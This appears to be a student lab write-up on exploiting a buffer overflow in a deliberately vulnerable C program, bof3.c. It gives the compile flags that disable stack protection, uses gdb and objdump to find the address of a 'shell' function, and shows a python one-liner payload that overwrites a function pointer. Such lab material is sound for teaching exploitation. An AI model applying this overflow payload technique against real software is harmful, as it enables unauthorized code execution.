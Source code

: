 # Understand bof3.c 
In this case, we see that the function is treated like a variable, so we only need to change the memory address of the variable to transfer control.
## Stackframe
![image](https://github.com/user-attachments/assets/79b2b42b-8a23-445e-90a1-36b6d4134ebf)
## Vulnerability
The function fgets(buf, 133, stdin) receives a maximum of 133 bytes, but buf only has 128 bytes, resulting in 5 extra bytes and causing a buffer overflow.
# Start attacking bof3.c 
## Compiling the file without stack restriction
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![image](https://github.com/user-attachments/assets/6349467a-5514-4fb3-b047-8aa99fb45fc6)
## In order to attack the file, we need to know the address of the shell we are using
- Use gdb to find the address of the shell function: 0x0804845b  
`gdb bof3.out` and `disas shell`
![image](https://github.com/user-attachments/assets/bbbd5758-2232-4ff8-905c-eb80238cdcb2)
- Or we use at outer by using `objdump -d bof3.out | grep shell`  
![image](https://github.com/user-attachments/assets/45dde156-3b12-4d5f-a010-5985cdf1efa8)
## To calculate how many bytes to inject to replace a function's return address with the shell function address, we need to determine
`echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out`  
![image](https://github.com/user-attachments/assets/d3fc6ea6-8693-416c-9b15-dc511779b2a2)


